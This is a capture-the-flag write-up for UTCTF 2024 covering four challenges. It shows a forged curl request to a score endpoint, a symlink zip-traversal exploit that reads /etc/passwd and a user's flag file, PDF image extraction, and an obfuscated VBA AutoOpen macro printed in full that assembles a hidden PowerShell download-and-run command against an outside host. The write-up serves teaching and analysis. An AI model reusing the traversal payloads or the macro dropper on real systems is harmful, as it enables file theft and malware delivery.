# UTCTF 2024 - WriteUp

<p align="center">
	
</p>


> Written by [V0lk3n](https://twitter.com/V0lk3n)


## Team Rank

<p align="center">
	
</p>

> Godzill'hack reached the 211th place with 3428 points against 854 teams

## Author Notes 

```
Unfortunately, we wasn't verry invested on that CTF as we was very busy on this week end

But overall experience on this CTF was really nice!

Here are few WriteUp, enjoy!

- V0lk3n
```

> PS : My Team Mate Zell made the WriteUp for these, have a look here : <a href="">OSINT 1-3 : Zell WriteUp</a>

## Table of Contents
  
* [**Web**](#Web)
	* [Beginner: Off-Brand Cookie Clicker](#CookieClicker)
	* [Schrödinger](#schrödinger)<br><br>
* [**Forensics**](#Forensics)
	* [Contracts](#Contracts)<br><br>
* [**Reverse Engineering**](#reverse)
	* [Fruits Deals](#FruitsDeals)<br><br>
* [**Credits**](#Credits)<br><br>


## Web<a name="Web"></a>


## Beginner: Off-Brand Cookie Clicker<a name="CookieClicker"></a>

Description :<br>
`I tried to make my own version of cookie clicker, without all of the extra fluff. Can you beat my highscore?`

Author :
`By Khael (@malfuncti0nal on discord)`

Value : `100 Points`

Solve : `474`

Attachments : `[http://betta.utctf.live:8138](http://betta.utctf.live:8138)`

## Solution

Going to the web app and we see that we need to retrieve the flag by beating the record of `10,000,000` click, by clicking on the Cookie picture.
<br>
<p align="center">
	
</p>
<br>
Looking at the source code, we can see how the "click" request's are made.

```javascript
    <script>
        document.addEventListener('DOMContentLoaded', function() {
            var count = parseInt(localStorage.getItem('count')) || 0;
            var cookieImage = document.getElementById('cookieImage');
            var display = document.getElementById('clickCount');
            display.textContent = count;
            cookieImage.addEventListener('click', function() {
                count++;
                display.textContent = count;
                localStorage.setItem('count', count);
                if (count >= 10000000) {
                    fetch('/click', {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/x-www-form-urlencoded'
                        },
                        body: 'count=' + count
                    })
                    .then(response => response.json())
                    .then(data => {
                        alert(data.flag);
                    });
                }
            });
        });
    </script>
```

Analyzing this source code, we understand that each click send a POST request to `/click` endpoint, with as headers `Content-Type: application/x-www-form-urlencoded` and as data `count= + count`. And if the click count are bigger or equal to `10000000` it should send the flag as an alert.

Knowing that, we can just craft the POST request, sending `10000000` click at one go using `curl`.

```bash
$ curl -XPOST http://betta.utctf.live:8138/click -H 'Content-type: application/x-www-form-urlencoded' --data 'count=10000000' 

{"flag":"Wow, you beat me. Congrats! utflag{y0u_cl1ck_pr3tty_f4st}"}
```

And we got the flag.

**FLAG : utflag{y0u_cl1ck_pr3tty_f4st}**


## Schrödinger<a name="schrödinger"></a>

Description :
```
Hey, my digital cat managed to get into my server and I can't get him out.

The only thing running on the server is a website a colleague of mine made.

Can you find a way to use the website to check if my cat's okay? He'll likely be in the user's home directory.

You'll know he's fine if you find a "flag.txt" file.
```

Author :
`By helix (@helix_shift on discord)`

Value : `282 Points`

Solve : `250`

Attachments : `[http://betta.utctf.live:5422](http://betta.utctf.live:5422)`


## Solution

Going to the Web App and we found a page where we can upload ZIP archive.
<br>
<p align="center">
	
</p>
<br>
First we create a zip archive, with random content.

```bash
$ echo "Hello World" > hello.txt

$ zip hello.zip hello.txt
  adding: hello.txt (stored 0%)
```

Now we upload the ZIP, and see what's going on.
<br>
<p align="center">
	
</p>
<br>
Great, so apparently the content inside the ZIP archive is called, as our file as been read.

Now let's see what happen if we create and upload an encrypted ZIP archive.

```bash
$ zip -e hello2.zip hello.txt
Enter password: 
Verify password: 
  adding: hello.txt (stored 0%)
```

<br>
<p align="center">
	
</p>
<br>
Great, now we learned that `unzip` is used, and we know that our content is read.

One vulnerability which can be interesting to exploit here is `Zip Slip`.

Zip Slip is a directory traversal which is exploited when the archive are extracted, using this vulnerability, we are able to upload any files on the target system and then call them, or wait for the system to call them itself.

As we know that our content is read, this mean that once the archive is extracted, the content is called too. This should exploit the vulnerability with success.

For more information about `Zip Slip` refer to the link bellow :

<a href="https://security.snyk.io/research/zip-slip-vulnerability">Zip Slip Vulnerability</a>

To exploit the vulnerability, we will create a ZIP archive with a file using symlink combined to directory traversal to the file `/etc/passwd`, then store the symlink on the ZIP. This will allow us to know which Users are inside the `home` directory to retrieve the flag.

Generally, a Web App is located to `/var/www/html/`, which mean that we need to go in three previous directory to reach the `/etc/passwd` file.

```bash
# Create the Symlink 
ln -s ../../../etc/passwd passwd

# Create the ZIP archive and store the Symlink
zip --symlinks passwd.zip passwd
```

Upload the ZIP archive and we can see that we exploited the vulnerability with success! We know that the user is `copenhagen`

<br>
<p align="center">
	
</p>
<br>

Now we repeat the process, but this time to retrieve the flag located in the `/home/copenhagen` directory, instead of `/etc/passwd`.

```bash
# Create the Symlink 
ln -s ../../../home/copenhagen/flag.txt flag

# Create the ZIP archive and store the Symlink
zip --symlinks flag.zip flag
```

Upload the ZIP archive, and we retrieve the flag with success!

<br>
<p align="center">
	
</p>
<br>

**FLAG : utflag{No_Observable_Cats_Were_Harmed}**


## Forensics<a name="Forensics"></a>


## Contracts<a name="Contracts"></a>

Description : 

```
Magical contracts are hard. Occasionally, you sign with the flag instead of your name. It happens.
```

Author :
`By Samintell (@samintell on discord)`

Value : `100 Points`

Solve : `387`

Attachments : <a href="assets/challenge/forensics/Contracts/contract.pdf">contract.pdf</a>


## Solution

Opening the PDF, and we don't see anything at first look. But as said the description "You sign with the flag instead of your name".

Looking at the PDF, the signature are pictures.

Using ChatGPT, i made a Python script to extract the pictures of the PDF.

```python
import fitz  # PyMuPDF

def extract_images_from_pdf(pdf_path, output_dir):
    # Open the PDF file
    pdf_document = fitz.open(pdf_path)

    for page_number in range(len(pdf_document)):
        page = pdf_document.load_page(page_number)
        image_list = page.get_images(full=True)

        for image_index, img in enumerate(image_list):
            # Extract the image data
            xref = img[0]
            base_image = pdf_document.extract_image(xref)
            image_bytes = base_image["image"]

            # Write the image data to a file
            image_filename = f"{output_dir}/page_{page_number + 1}_image_{image_index + 1}.png"
            with open(image_filename, "wb") as image_file:
                image_file.write(image_bytes)

    # Close the PDF document
    pdf_document.close()

def main():
    pdf_path = "document.pdf"
    output_dir = "extracted_images"
    extract_images_from_pdf(pdf_path, output_dir)
    print("Images extracted successfully!")

if __name__ == "__main__":
    main()
```

Save the script at the same PDF location, install the dependency and run it.

```bash
$ pip install PyMuPDF

$ ls
document.pdf  pdf-extractor.py

$ python3 pdf-extractor.py                                          
Images extracted successfully!

$ ls
document.pdf  extracted_images  pdf-extractor.py
```

It create an output folder named "extracted_images", and inside it we can find  all extracted pictures.

<br>
<p align="center">
	
</p>
<br>

One of them is the flag.

<br>
<p align="center">
	
</p>
<br>


**FLAG : utctf{s1mple_w1z4rding_mist4k3s}**

## Reverse Engineering<a name="reverse"></a>

## Fruits Deals<a name="FruitsDeals"></a>

Description : 

```
I found a excel sheet with some great deals thanks to some random guy on the internet! 

Who doesn't trust random people off the internet, especially from email

The flag is the file name that was attempted to be downloaded, wrapped in utflag{} 

Note: the file imitates malicious behavior. 
its not malicious, but it will be flagged by AV. 
you probably shouldn't just run it though.
```

Author :
`By Samintell (@samintell on discord)`

Value : `410 Points`

Solve : `239`

Attachments : <a href="assets/challenge/reverse/FruitDeals/deals.xlsm">deals.xlsm</a>

## Solution

Opening the Excel file with Microsoft Office, we can see that there is macro in it.

<br>
<p align="center">
	
</p>
<br>

Editing the macro called `AutoOpen` and we can see this macro (full code bellow).

```vb
Sub AutoOpen()
Dim Retval
Dim f As String
Dim t53df028c67b2f07f1069866e345c8b85, qe32cd94f940ea527cf84654613d4fb5d, e5b138e644d624905ca8d47c3b8a2cf41, tfd753b886f3bd1f6da1a84488dee93f9, z92ea38976d53e8b557cd5bbc2cd3e0f8, xc6fd40b407cb3aac0d068f54af14362e As String
xc6fd40b407cb3aac0d068f54af14362e = "$OrA, "
If Sheets("Sheet2").Range("M62").Value = "Iuzaz/iA" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "$jri);"
End If
If Sheets("Sheet2").Range("G80").Value = "bAcDPl8D" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "Invok"
End If
e5b138e644d624905ca8d47c3b8a2cf41 = " = '"
If Sheets("Sheet2").Range("P31").Value = "aI3bH4Rd" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "http"
End If
If Sheets("Sheet2").Range("B50").Value = "4L3bnaGQ" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "://f"
End If
If Sheets("Sheet2").Range("B32").Value = "QyycTMPU" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "e-Ite"
End If
If Sheets("Sheet2").Range("K47").Value = "0kIbOvsu" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "m $jri"
End If
If Sheets("Sheet2").Range("B45").Value = "/hRdSmbG" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + ";brea"
End If
If Sheets("Sheet2").Range("D27").Value = "y9hFUyA8" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "ruit"
End If
If Sheets("Sheet2").Range("A91").Value = "De5234dF" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + ".ret3"
End If
If Sheets("Sheet2").Range("I35").Value = "DP7jRT2v" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + ".gan"
End If
If Sheets("Sheet2").Range("W48").Value = "/O/w/o57" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "k;} c"
End If
If Sheets("Sheet2").Range("R18").Value = "FOtBe4id" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "atch "
End If
If Sheets("Sheet2").Range("W6").Value = "9Vo7IQ+/" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "{}"""
End If
If Sheets("Sheet2").Range("U24").Value = "hmDEjcAE" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "g/ma"
End If
If Sheets("Sheet2").Range("C96").Value = "1eDPj4Rc" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "lwar"
End If
If Sheets("Sheet2").Range("B93").Value = "A72nfg/f" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + ".rds8"
End If
If Sheets("Sheet2").Range("E90").Value = "HP5LRFms" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "e';$"
End If
tfd753b886f3bd1f6da1a84488dee93f9 = "akrz"
If Sheets("Sheet2").Range("G39").Value = "MZZ/er++" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "f3zsd"
End If
If Sheets("Sheet2").Range("B93").Value = "ZX42cd+3" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "2832"
End If
If Sheets("Sheet2").Range("I15").Value = "e9x9ME+E" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "0918"
End If
If Sheets("Sheet2").Range("T46").Value = "7b69F2SI" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "2afd"
End If
If Sheets("Sheet2").Range("N25").Value = "Ga/NUmJu" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "CNTA"
End If
If Sheets("Sheet2").Range("N26").Value = "C1hrOgDr" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + " = '"
End If
If Sheets("Sheet2").Range("C58").Value = "PoX7qGEp" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "banA"
End If
If Sheets("Sheet2").Range("B53").Value = "see2d/f" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "Fl0dd"
End If
If Sheets("Sheet2").Range("Q2").Value = "VKVTo5f+" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "NA-H"
End If
t53df028c67b2f07f1069866e345c8b85 = "p"
If Sheets("Sheet2").Range("L84").Value = "GSPMnc83" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "oWe"
End If
If Sheets("Sheet2").Range("H35").Value = "aCxE//3x" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "ACew"
End If
If Sheets("Sheet2").Range("R95").Value = "uIDW54Re" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "Rs"
End If
If Sheets("Sheet2").Range("A24").Value = "PKRtszin" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "HELL"
End If
If Sheets("Sheet2").Range("G33").Value = "ccEsz3te" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "L3c33"
End If
If Sheets("Sheet2").Range("P31").Value = "aI3bH4Rd" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + " -c"
End If

If Sheets("Sheet2").Range("Z49").Value = "oKnlcgpo" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "4';$"
End If
If Sheets("Sheet2").Range("F57").Value = "JoTVytPM" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "jri="
End If
If Sheets("Sheet2").Range("M37").Value = "y7MxjsAO" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "$env:"
End If
If Sheets("Sheet2").Range("E20").Value = "ap0EvV5r" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "publ"
End If
z92ea38976d53e8b557cd5bbc2cd3e0f8 = "\'+$"
If Sheets("Sheet2").Range("D11").Value = "Q/GXajeM" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "CNTA"
End If
If Sheets("Sheet2").Range("B45").Value = "/hRdSmbG" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "+'.ex"
End If
If Sheets("Sheet2").Range("D85").Value = "y4/6D38p" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "e';tr"
End If
If Sheets("Sheet2").Range("P2").Value = "E45tTsBe" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "4d2dx"
End If
If Sheets("Sheet2").Range("O72").Value = "lD3Ob4eQ" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "ic+'"
End If
qe32cd94f940ea527cf84654613d4fb5d = "omm"
If Sheets("Sheet2").Range("P24").Value = "d/v8oiH9" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "and"
End If
If Sheets("Sheet2").Range("V22").Value = "dI6oBK/K" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + " """
End If
If Sheets("Sheet2").Range("G1").Value = "zJ1AdN0x" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "$oa"
End If
If Sheets("Sheet2").Range("Y93").Value = "E/5234dF" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "e$3fn"
End If
If Sheets("Sheet2").Range("A12").Value = "X42fc3/=" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "av3ei"
End If
If Sheets("Sheet2").Range("F57").Value = "JoTVytPM" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "K ="
End If
If Sheets("Sheet2").Range("L99").Value = "t8PygQka" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + " ne"
End If
If Sheets("Sheet2").Range("X31").Value = "gGJBD5tp" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "w-o"
End If
If Sheets("Sheet2").Range("C42").Value = "Dq7Pu9Tm" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "bjec"
End If
If Sheets("Sheet2").Range("D22").Value = "X42/=rrE" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "aoX3&i"
End If
If Sheets("Sheet2").Range("T34").Value = "9u2uF9nM" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "t Ne"
End If
If Sheets("Sheet2").Range("G5").Value = "cp+qRR+N" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "t.We"
End If
If Sheets("Sheet2").Range("O17").Value = "Q8z4cV/f" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "bCli"
End If
If Sheets("Sheet2").Range("Y50").Value = "OML7UOYq" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "ent;"
End If
If Sheets("Sheet2").Range("P41").Value = "bG9LxJvN" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "$OrA"
End If
If Sheets("Sheet2").Range("L58").Value = "qK02fT5b" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "y{$oa"
End If
If Sheets("Sheet2").Range("P47").Value = "hXelsG2H" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "K.Dow"
End If
If Sheets("Sheet2").Range("A2").Value = "RcPl3722" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "Ry.is"
End If
If Sheets("Sheet2").Range("G64").Value = "Kvap5Ma0" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "nload"
End If
If Sheets("Sheet2").Range("H76").Value = "OjgR3YGk" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "File("
End If
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
Retval = Shell(f, 0)
Dim URL As String
URL = "https://www.youtube.com/watch?v=mYiBdMnIT88"
ActiveWorkbook.FollowHyperlink URL
End Sub
```


As said the challenge description, the flag is the file name that was attempted to be downloaded. 

Basically, we should analyse that code to reverse it and find the complete executed command.

But there is much more simpler than that.

The part which is interesting for us is the one bellow.

```vb
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
Retval = Shell(f, 0)
Dim URL As String
URL = "https://www.youtube.com/watch?v=mYiBdMnIT88"
ActiveWorkbook.FollowHyperlink URL
```

We can see that it will execute a a shell, and then open a YouTube. Our goal is to retrieve the shell command executed which try to download the file.

To do this, i removed the YouTube part of the macro. And instead of making a Shell command, i replaced it using a MsgBox to retrieve the command as an alert popup instead of command execution.

```vb
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e Retval = MsgBox(f, 0) End Sub
```

Finally run the macro and we can get the full command, and of course, the flag!

<br>
<p align="center">
	
</p>
<br>

**FLAG : utflag{banANA-Hakrz09182afd4}**


## Credits<a name="Credits"></a>


Special thanks to :

- mzone! For OSINT 1-3 (Forensics??) challenges! My Team Mate Zell made the WriteUp for these, have a look here : <a href="">OSINT 1-3 : Zell WriteUp</a>
- Samintell! For FruitDeals (reverse) and Contracts (forensics) challenges!
- helix! For Schrödinger (web) challenge!
- Khael! For Beginner: Off-Brand Cookie Clicker (web) challenge!
- For sure, all challenges maker!
- UTCTF 2024 Team!

And of course... 

**Thanks to all my team mate [Godzillhack!](https://godzillhack.com)**
